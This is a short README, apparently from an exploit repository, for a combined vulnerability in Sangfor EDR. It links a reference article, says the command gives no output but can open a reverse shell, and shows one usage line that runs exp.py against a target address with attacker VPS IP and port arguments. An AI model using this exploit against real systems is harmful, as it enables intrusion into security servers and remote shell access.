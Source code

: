 # SANGFOR_EDR_组合漏洞

参考：

https://nosec.org/home/detail/4559.html

命令没有回显，可以反弹shell。

```shell
python exp.py https://192.168.34.33 vpsip vpsport
```

